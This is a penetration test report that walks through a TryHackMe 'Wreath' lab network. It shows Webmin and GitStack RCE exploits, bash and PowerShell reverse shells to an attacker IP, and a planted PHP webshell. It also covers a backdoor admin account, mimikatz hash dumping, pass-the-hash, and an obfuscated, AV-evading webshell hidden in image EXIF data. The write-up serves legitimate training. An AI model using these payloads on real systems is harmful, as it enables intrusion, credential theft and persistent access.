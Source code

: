 # Wreath - Penetration Test Report

> Note: This is based on a fictitious engagement accessed through [Tryhackme](https://tryhackme.com/room/wreath)

![wreath network](./wreathnetworkempty.png)

## Table of Contents

- [Executive Summary](#executive-summary)
- Findings and Remediations
  1. [Webserver (`.200`)](#1-webserver-200)
  2. [Pivoting with Webserver (`.200`)](#2-pivoting-with-webserver-200)
  3. [gitserver (`.150`)](#3-gitserver-150)
  4. [Personal PC (`.100`)](#4-personal-pc-100)
- [Conclusion](#conclusion)
- [References](#references)

_____________________________________

## Executive Summary

Our client, Thomas Wreath contacted us to perform a security penetration test on his computer network. Thomas briefed us on the high level architecture prior to the engagement. The scope includes the public facing webserver (local IP address `*.*.*.200`), git server of unknown IP address and his personal PC of also unknown IP address. We were tasked to find any vulnerabilities within the public facing webserver and to pivot to possibly to the git server or even his personal PC

By the end of the engagement, several vulnerabilities were found with suggested remediations detailed in this report. We were able to gain highest level of access to the public webserver, the git server, and Thomas' personal PC (despite having Windows Defender antivirus installed)

> Note: we will now refer to all local IP addresses by their last octect eg. `*.*.*.200` as `.200`

_____________________________________

## 1. Webserver (`.200`)

![wreath webserver](./wreathnetworkwebserver.png)

### Findings

- Vulnerable `MiniServ 1.890 (Webmin httpd)` running on port 80 - `CVE-2019–15107`
- ssh private keys was obtained after getting root access
- ssh on port 22 was enabled which allowed us to maintain access

<details>
<summary>Attack Narrative (click to expand)</summary>
<br>

_____________________________________

### Perform a network scan

```
nmap -p-15000 10.200.81.200 -oN initial.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-05 02:14 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).
Not shown: 14995 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
9090/tcp  closed zeus-admin
10000/tcp open   snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 118.64 seconds
```

Researching the Webmin version reveals this server is vulnerable to [`CVE-2019–15107`](https://www.cvedetails.com/cve/CVE-2019-15107/)

_____________________________________

### Webserver exploitation

Exploit used: `https://github.com/MuirlandOracle/CVE-2019-15107`

```
./CVE-2019-15107.py 10.200.81.200

        __        __   _               _         ____   ____ _____     
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|    
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|      
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___     
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|     
                                                                       
                                                @MuirlandOracle        
                                                                       
                                                                       
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.81.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                     
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id                                                                   
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

```

Create a reverse shell by:

1. New terminal start a nc listener

```
nc -lvnp 1337
```

2. On the pseudo shell run a reverse bash command
   
```
/bin/bash -i >& /dev/tcp/10.50.82.56/1337 0>&1 
```

3. Back on the listener terminal, we have reverse shell

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45242          
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell                                     
[root@prod-serv ]# id                                                  
id                                                                     
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

_____________________________________

### Webserver maintain access - ssh private keys

SSH keys are commonly stored in the home directory under `~/.ssh`

```
ls -la ~/.ssh
total 16
drwx------. 2 root root   80 Jan  6 03:29 .
dr-xr-x---. 3 root root  228 Apr  4 10:20 ..
-rw-r--r--. 1 root root  571 Nov  7 14:05 authorized_keys
-rw-------. 1 root root 2602 Nov  7 14:02 id_rsa
-rw-r--r--. 1 root root  571 Nov  7 14:02 id_rsa.pub
-rw-r--r--. 1 root root  345 Apr  3 07:54 known_hosts
```

With root access, we have read access to the private key `id_rsa`.

This key can be used to ssh straight into the webserver

```
ssh -i id_rsa root@10.200.81.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

_____________________________________


</details>
<br>

### Remediation

- Update `MiniServ 1.890 (Webmin httpd)` to the latest version

_____________________________________

## 2. Pivoting with webserver (`.200`)

### Findings

- Using the webserver `.200`, we perform a scan of the network 
- Two hosts found with local IP addresses ending with `.100` and `.150`
- Host `.100` have filtered ports 
- Host `.150` have open ports that we can further enumerate on

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a network scan 

> We first upload a binary of nmap to the webserver and log in using ssh keys obtained previously

Ping scan - found `100` and `150` are up

```
[root@prod-serv tmp]# ./nmap-Neozer0 -sn 10.200.81.1-255 -oN scan-Neozer0

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:29 BST
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00035s latency).
MAC Address: 02:8C:E0:55:7B:89 (Unknown)
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Host is up (0.00014s latency).
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Host is up (-0.10s latency).
MAC Address: 02:AD:06:35:A5:CB (Unknown)
Nmap scan report for ip-10-200-81-250.eu-west-1.compute.internal (10.200.81.250)
Host is up (0.00022s latency).
MAC Address: 02:E7:4E:C8:80:A7 (Unknown)
Nmap scan report for ip-10-200-81-200.eu-west-1.compute.internal (10.200.81.200)
Host is up.
Nmap done: 255 IP addresses (5 hosts up) scanned in 3.73 seconds
```

> Note: we ignore `.1 ` and `.250` (VPN server) here as they are out of scope

Scanning ports for `.100` returns filtered ports
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.100

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-14 10:17 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
All 6150 scanned ports on ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100) are filtered
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 124.54 seconds
```

Scanning ports for `.150` returns results
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:57 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00049s latency).
Not shown: 6142 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  epmap
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
5985/tcp  open  wsman
47001/tcp open  winrm
MAC Address: 02:AD:06:35:A5:CB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 574.74 seconds
```

It is still unknown what this server is and more enumeration is required

### Clean up

- Delete /tmp/nmap-Neozer0

</details>
<br>

### Remediation

- None

_____________________________________

## 3. gitserver (`.150`)

![wreath gitserver](./wreathnetworkgitserver.png)

### Findings

- Ports `80`, `3389`, `5986` are open
- gitserver running `gitstack`
- gitserver vulnerable to unauthenticated RCE on `gitstack v2.3.10`
- Using rdp we were able to run mimikatz and obtain hashes for persistence

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a port scan 

Scanning ports for `.150` revels port 80, 3389 and 5985 are open
```
[root@prod-serv tmp]# ./nmap-Neozer0 -p1-15000 10.200.85.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-16 23:49 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-85-150.eu-west-1.compute.internal (10.200.85.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00083s latency).
Not shown: 14997 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
MAC Address: 02:4C:02:6B:0D:57 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 280.32 seconds
```

_____________________________________

### Examine the webpage on port 80

Webpage through port `80` is only visible if we were to access with Webserver `.200`. This can be done with sshuttle

```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24 -x 10.200.85.200
c : Connected to server.
```

> Note we use the ssh keys private keys again here

Visiting the webpage reveals that the server is using `gitstack` and a path `registration/login/` exists

![gitserver](gitPivot.png)

Visiting the page shows a login page (default admin/admin creds do not work here)

![gitserver login](gitstack.png)

_____________________________________

### GitStack exploitation

We obtain a gitstack exploit and modify to suit
Use searchsploit on gitstack
```
kali@kali:~/thm/wreath$ searchsploit gitstack
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
GitStack - Remote Code Execution                                                                                                                                    | exploits/php/webapps/44044.md
GitStack - Unsanitized Argument Remote Code Execution (Metasploit)                                                                                                  | exploits/windows/remote/44356.rb
GitStack 2.3.10 - Remote Code Execution                                                                                                                             | exploits/php/webapps/43777.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Download the potential RCE found with searchsploit
```
kali@kali:~/thm/wreath$ searchsploit -m 43777
  Exploit: GitStack 2.3.10 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/43777
     Path: /usr/share/exploitdb/exploits/php/webapps/43777.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/thm/wreath/43777.py
```

Change the ip address to target IP eg `10.200.85.150` and the location where the backdoor will live (`Neozer0-exploit.php`)

```python
ip = '10.200.85.150'

# What command you want to execute
command = "whoami"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'

...

print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\Neozer0-exploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/Neozer0-exploit.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```

These create PHP webshell `<?php system($_POST['a']); ?>` and echo it into `Neozer0-exploit.php` under webroot.

This can be accessed by posting a command to `/web/Neozer0-exploit.php`

Run `43777.py` - the backdoor will live in `IP/web/exploit-Neozer0.php`

```
kali@kali:~/thm/wreath$ python2 43777.py 
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
[+] Execute command
"nt authority\system
" 
```

> Note the `whoami` command runs on first execution

We can now run commands on the webshell using query params of `a`

Find hostname - `git-serv`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=hostname"
"git-serv
" 
```

Find OS  - `Windows`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=systeminfo"
"
Host Name:                 GIT-SERV
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763

...
```

_____________________________________

### Obtaining a reverse shell

This is a bit more difficult as we want to listen from our Attacking Machine for a nc connection through the Webserver `.200` to the gitserver `.150`. Here we use a socat relay

Start a nc listener on attacking machine
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
listening on [any] 30000 ...
```

Open up a port on Web server `.200`
```
[root@prod-serv ~]# firewall-cmd --zone=public --add-port 29999/tcp
success
```

Set up a relay on `.200` (pass through to attacking machine)
```
[root@prod-serv tmp]# ./socat-Neozer0 tcp-l:29999 tcp:10.50.82.56:30000 &
[1] 2902
```

> Note: we upload a socat version to the `/tmp` directory to use

Execute a reverse shell

Use this command to get a reverse shell - use web server IP and port that was just opened
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.85.200',29999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Need to url encode the command first if using `curl`

Attacking machine
```
kali@kali:~/thm/wreath$ curl -X POST -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.85.200%27%2C29999%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22" http://gitserver.thm/web/exploit-Neozer0.php
```

We receive a shell on our attacking machine!
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
[sudo] password for kali: 
listening on [any] 30000 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.200] 46412
whoami
nt authority\system
PS C:\GitStack\gitphp> 
```

_____________________________________

### Maintain access

From inital port scans we see that rdp is enabled on port 3389 (RDP) and 5985 (WinRM)

Since we already have ultimate access, we can create these users that can leverage rdp

We need to add the account to the Administrators and Remote Management Users groups 

```
PS C:\GitStack\gitphp> net user Neozer0 taco /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators Neozer0 /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" Neozer0 /add
The command completed successfully.
```


```
kali@kali:~/thm/wreath$ evil-winrm -u Neozer0 -p taco -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Neozer0\Documents> whoami
git-serv\neozer0
```

We access the server with rdp

run xfreerdp to get GUI rdp
```
kali@kali:~/thm/wreath$ xfreerdp /v:10.200.85.150 /u:Neozer0 /p:taco +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
[03:04:23:067] [2154:2155] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd

...
```

We can see a share folder that can be accessed on cli as `\\tsclient\`

![xfreerdp](xfreerdp-share-folder.png)

Run cmd as admin and run mimikatz

We can obtain the hashes by running: 
- `privilege::debug`
- `token::elevate`
- `lsadump::sam`


```
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                                                                                                                    C:\Windows\system32>\\tsclient\share\mimikatz\x64\mimikatz.exe                                                                                                                                                                                                                            .#####.   mimikatz 2.2.0 (x64) #18362 Jan  4 2020 18:59:26                                                                                 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                                                  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                                                                     ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                                                                       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )                                                                     '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/                                                                                                                                                                                                               

mimikatz # privilege::debug                                                                                                                 Privilege '20' OK                                                                                                                                                                                                                                                                       

mimikatz # token::elevate                                                                                                                   Token Id  : 0                                                                                                                               User name :                                                                                                                                 SID name  : NT AUTHORITY\SYSTEM                                                                                                                                                                                                                                                         672     {0;000003e7} 1 D 20141          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary                                      -> Impersonated !                                                                                                                           * Process Token : {0;000b5d45} 2 F 1722298     GIT-SERV\Neozer0        S-1-5-21-3335744492-1614955177-2693036043-1002  (15g,24p)    Primary                                                                                                                                             * Thread Token  : {0;000003e7} 1 D 1795378     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)                                                                                                                                                    

...

mimikatz # lsadump::sam                                                                                                                     Domain : GIT-SERV                                                                          User : Administrator                                                                                                                          Hash NTLM: ********************************                                                                                                                                                                                                                                           

...

RID  : 000003e9 (1001)                                                                                                       User : Thomas                                                                                                                  Hash NTLM: ********************************                                                

...
```

![xfreerdp mimikatz](xfreerdp-mimikatz.png)

With the Administrator's hash we can log in using evil-winrm's pass the hash without the use of socat relay and nc listener

```
kali@kali:~/thm/wreath$ evil-winrm -u Administrator -H ******************************** -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
git-serv\administrator
```

_____________________________________

### Clean up

- Delete `/tmp/socat-Neozer0` - webserver
- Delete `/Neozer0-exploit.php` - gitserver
- Delete user `Neozer0` - gitserver
- Remove firewall port open rule on port 29999

</details>
<br>

### Remediation

- Update GitStack to the latest version

_____________________________________

## 4. Personal PC (`.100`)

![wreath all network](./wreathnetworkall.png)

### Findings

- Ports 80 and 3389 are open
- PHP 7.4.11 is used
- Webpage source code can be found in the gitserver `.150`
- Analysing git commits we see a new path on the website `/resources` with an upload feature
- There are two filters on the upload feature to bypass
  - File extension
  - Image size
- php injected into `Comment` of the image exifdata allows us to get a webshell
- Misconfigured privilege found on `SystemExplorerHelpService` execution path allowing us to inject our own executable and obtain shell running as root

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a port scan on Personal PC (`.100`)

First we run evil-winrm with `-s` to specify path to scan script `Invoke-Portscan`

Performing portscans reveal ports `80` and `3389` are open
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.85.100 -TopPorts 50

Hostname      : 10.200.85.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 21, 23...}
finishTime    : 4/22/2021 10:49:34 AM
```

Next we check out the webserver

_____________________________________

### Check out the webserver on Personal PC (`.100`)

Because the Personal PC port 80 is only opened to the gitserver `.150`, we need to perform additional steps.

Chisel forward proxy is a good option with sshuttle being used.

1. Open up a port in Windows firewall (we chose port 34999 here)

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh advfirewall firewall add rule name="Chisel-Neozer0" dir=in action=allow protocol=tcp localport=34999
Ok.
```

2. Start a `chisel client` on attacking machine

```
kali@kali:~/thm/wreath$ chisel client 10.200.85.150:34999 9090:socks
2021/04/22 06:34:39 client: Connecting to ws://10.200.85.150:34999
2021/04/22 06:37:28 client: Connected (Latency 262.542935ms)
```

3. Upload chisel (Windows version) to Git server (`.150`) and run `chisel server` (note we chose port 34999)

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload /tmp/chisel c:\windows\tmp\chisel-Neozer0.exe

*Evil-WinRM* PS C:\Users\Administrator\Documents> c:\windows\tmp\chisel-Neozer0.exe server -p 34999 --socks5
chisel-Neozer0.exe : 2021/04/22 11:37:19 server: Fingerprint 4YNhTCGX+gcPiJEUdmRj7Qil1srdihA8ooqp0LBNLnY=
    + CategoryInfo          : NotSpecified: (2021/04/22 11:3...hA8ooqp0LBNLnY=:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2021/04/22 11:37:19 server: Listening on http://0.0.0.0:349992021/04/22 11:37:27 server: session#1: Client version (0.0.0-src) differs from server version (1.7.6)

```

4. Now port forwarding is connected, we set up Foxy proxy with the following settings
- IP 127.0.0.1
- Port 9090
- Proxy type SOCKS5
![foxyproxy setting](foxyproxysetting.png)

5. visit 10.200.85.100 - this is a clone of Thomas' personal website
6. Using Wappalyzer we detect php version used on this page

![local web server](wapplocalwebserver.png)

_____________________________________

### gitserver (`.150`) code review

We find `Webserver.git` on the git server in `C:\GitStack\repositories`

```
*Evil-WinRM* PS C:\> ls GitStack/repositories


    Directory: C:\GitStack\repositories


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2021   7:05 PM                Website.git
```

Download the entire directory and use GitTools to analyse commits and use GitTools to extract git
```
kali@kali:~/thm/wreath$ ./GitTools/Extractor/extractor.sh gitserver/downloaded-website/ gitserver/Website                                                                                             
###########
# Extractor is part of https://github.com/internetwache/GitTools

...

[*] Creating...
[+] Found commit: 70dde80cc19ec76704567996738894828f4ee895
[+] Found folder: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css                                                                                              
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/.DS_Store                                                                                      
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/bootstrap.min.css
```

We see the extracted directories are commits
```
kali@kali:~/thm/wreath/gitserver/Website$ ls
0-70dde80cc19ec76704567996738894828f4ee895  2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
```

We use a bash one liner to loop through all the folders `commit-meta.txt` and read out more details

```
kali@kali:~/thm/wreath/gitserver/Website$ separator="====="; for i in $(ls); do printf "\n\n$separator\n$i\n$(cat $i/commit-meta.txt)";done


=====
0-70dde80cc19ec76704567996738894828f4ee895
tree d6f9cc307e317dec7be4fe80fb0ca569a97dd984
author twreath <me@thomaswreath.thm> 1604849458 +0000
committer twreath <me@thomaswreath.thm> 1604849458 +0000

Static Website Commit

=====
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
tree c4726fef596741220267e2b1e014024b93fced78
parent 82dfc97bec0d7582d485d9031c09abcb5c6b18f2
author twreath <me@thomaswreath.thm> 1609614315 +0000
committer twreath <me@thomaswreath.thm> 1609614315 +0000

Updated the filter

=====
2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
tree 03f072e22c2f4b74480fcfb0eb31c8e624001b6e
parent 70dde80cc19ec76704567996738894828f4ee895
author twreath <me@thomaswreath.thm> 1608592351 +0000
committer twreath <me@thomaswreath.thm> 1608592351 +0000

Initial Commit for the back-end
```

The commits are in these order:
1. `Static Website Commit` - `70dde80cc19ec76704567996738894828f4ee895`
2. `Initial Commit for the back-end` - `82dfc97bec0d7582d485d9031c09abcb5c6b18f2`
3. `Updated the filter` - `345ac8b236064b431fa43f53d91c98c4834ef8f3`

We look for php files in the folder `345ac8b236064b431fa43f53d91c98c4834ef8f3`

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ find . -name "*.php"
./resources/index.php
```

Partial of index.php:

```php
<?php

        if(isset($_POST["upload"]) && is_uploaded_file($_FILES["file"]["tmp_name"])){
                $target = "uploads/".basename($_FILES["file"]["name"]);
                $goodExts = ["jpg", "jpeg", "png", "gif"];
...

        <!-- ToDo:
                  - Upgrade the filter on this page. Can't rely on basic auth for everything
                  
```

Interesting part is the filters here
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
    header("location: ./?msg=Fail");
    die();
}
```

This line has `getimagesize` method that checks if image has dimensions - returns `False` if file is not an image
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
```

This line checks for two conditions, if either fails, we get error message.
- First condition split string by `.` into an array and checks second item
  - `image.jpeg` returns `["image", "jpeg"]`
  - But `image.jpeg.php` returns `["image","jpeg","php"]` and `jpeg` gets passed into the filter
  - This filter then checks if it is not in the array of `$goodExts`
- Second condition checks if the file is not an image

After two conditions pass, the file gets moved into `uploads/` directory with original name
```php
$target = "uploads/".basename($_FILES["file"]["name"]);
```

We also find a folder `/resources` which may be a directory on the web to check out

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ ls
commit-meta.txt  css  favicon.png  fonts  img  index.html  js  resources
```

_____________________________________

### Visit `/resources` endpoint

we can visit `http://10.200.85.100/resources` where we are greeted with a login prompt

![login prompt](./resources.png)

Try Thomas' hash that we cracked earlier

User: Thomas

Password: *******

.. And we're in

Upload a normal jpg file and access it through `/resources/uploads/FILE.jpg`

Upload success
![upload success](./uploadsuccess.png)

And we see our image
![upload access](./uploadaccess.png)

Now to upload an exploit to get webshell. We need to bypass the two filters
1. The file extension can be bypassed with `.jpeg.php`
2. The image size will require an actual image with shell injected in the exifdata, specifically the `Comment` field
   
Take a regular image and rename it with `.jpeg.php` extension

Run `exiftool` on the image
```
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php 
ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:30:57-04:00
...
```

There is also AV installed on this target. It may detect any default PHP webshell uploaded and alert the victim. The first step then is to create a proof of concept before we can work out an AV bypass.

Harmless PHP payload - `<?php echo "<pre>Test Payload</pre>"; die();?>` 

We add this to the image with exiftool
```
kali@kali:~/thm/wreath$ exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-Neozer0.jpeg.php
    1 image files updated
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:35:37-04:00

...

Comment                         : <?php echo "<pre>Test Payload</pre>"; die(); ?>

...
```

Now we upload this benign payload and access it on the browser to see that the test payload has worked and we are able to execute PHP code on the system!

![upload poc](./uploadpoc.png)

_____________________________________

### Exploit with AV Evasion 

Given that we know the AV used on the PC is Windows Defender (preinstalled with Windows Server):
  - We build payload in a slightly less common way
  - We obfuscate manually or using a tool online

Payload:
```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

We use online [php obfuscator](https://www.gaijin.at/en/tools/php-obfuscator) with all obfuscation options set and we get:

```php
<?php \$v0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$v0)){echo base64_decode('PHByZT4=').shell_exec(\$v0).base64_decode('PC9wcmU+');}die();?>
```

Make a new copy of the image and inject our new payload
```
kali@kali:~/thm/wreath$ cp ~/Downloads/corg.jpg ./shell-Neozer0.jpeg.php
